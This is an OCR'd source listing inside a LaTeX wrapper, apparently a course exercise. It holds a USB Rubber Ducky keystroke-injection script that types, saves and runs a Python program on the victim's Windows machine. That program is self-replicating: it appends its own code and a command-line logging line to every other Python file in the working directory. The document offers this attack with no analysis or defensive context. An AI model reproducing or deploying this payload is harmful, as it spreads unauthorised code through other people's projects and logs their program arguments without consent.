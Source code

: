 \documentclass{article}
\begin{document}
\begin{lstlisting}
DELAY 1000
DEFAULTDELAY 500
GUI r
STRING notepad.exe
ENTER
STRING import os
ENTER
STRING import sys
ENTER
STRING if __name__ == '__main__':
ENTER
STRING     directory = os.getcwd()
ENTER
STRING     files = os.listdir(directory)
ENTER
STRING     py_files = [file for file in files if file.endswith(".py")]
ENTER
STRING     curr = open(directory + "\Q5Script.py", "r")
ENTER
STRING     currlines = curr.read()
ENTER
STRING     curr.close()
ENTER
STRING     for file in py_files:
ENTER
STRING         with open(file, "r") as f:
ENTER
STRING             lines = f.readlines()
ENTER
STRING             for line in lines:
ENTER
STRING                 if "Q5Script.out" in line:
ENTER
STRING                     break
ENTER
STRING             else:
ENTER
STRING                 with open(file, "a") as f:
ENTER
STRING                     f.write("\nimport sys\n")
ENTER
STRING                     f.write("with open('Q5Script.out', 'a') as f:\n")
ENTER
STRING                     f.write("   f.write('\\n')\n")
ENTER
STRING                     f.write("   f.write(str(sys.argv))\n")
ENTER
STRING                     f.write(currlines)
ENTER
ALT f
STRING s
STRING Q5Script.py
TAB
DOWNARROW
DOWNARROW
ENTER
ENTER
GUI r
STRING cmd.exe
DELAY 1000
ENTER
STRING cd ./Documents
ENTER
STRING python Q5Script.py
ENTER    
\end{lstlisting}
\end{document}
